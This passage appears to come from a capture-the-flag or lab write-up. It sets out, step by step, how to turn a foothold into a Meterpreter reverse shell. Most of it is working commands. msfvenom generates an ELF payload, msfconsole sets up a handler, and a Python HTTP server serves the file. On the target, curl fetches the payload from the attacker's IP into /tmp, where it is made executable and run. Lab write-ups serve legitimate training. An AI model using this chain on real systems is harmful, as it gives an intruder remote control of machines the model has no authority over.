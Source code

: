 
The foothold can call back to my machine, so I will open a meterpreter reverse shell

## Preparation

### 1 -  {Attacking Machine}Generate Payload to call back home 
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o reverse.sh
```

### 2 - {Attacking Machine}Run msfconsole connection handler
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter_reverse_tcp; set LHOST tun0; set LPORT '4444'; run"
```

### 3 - {Attacking Machine}Starting a pyhton HTTP Server

The server is going to be started in the port 8080 and will be bind to **tun0 ** interface IP, therefore only accepting connections from that network

```
python3 -m http.server 8080 -b $(ip addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
```


### 4 - {Target Machine}Get the Payload from the attacking machine 

Attention to:

- That IP was mine at that moment
- filename was the defined earlier, when the payload was generated
- The output folder,  I choose **/tmp** , because usually there are no permissions problems.

```
curl http://10.10.14.106:8080/reverse.sh --output /tmp/shell.sh
```

Once the file is downloaded, you can shutdown the python server on the attacking machine

### 5 - {Target Machine}Grant execution permission and executing the payload

```
chmod u+x shell.sh
```

This grants the owner of the file permission to execute

Now, executes 

```
/tmp/shell.sh
```
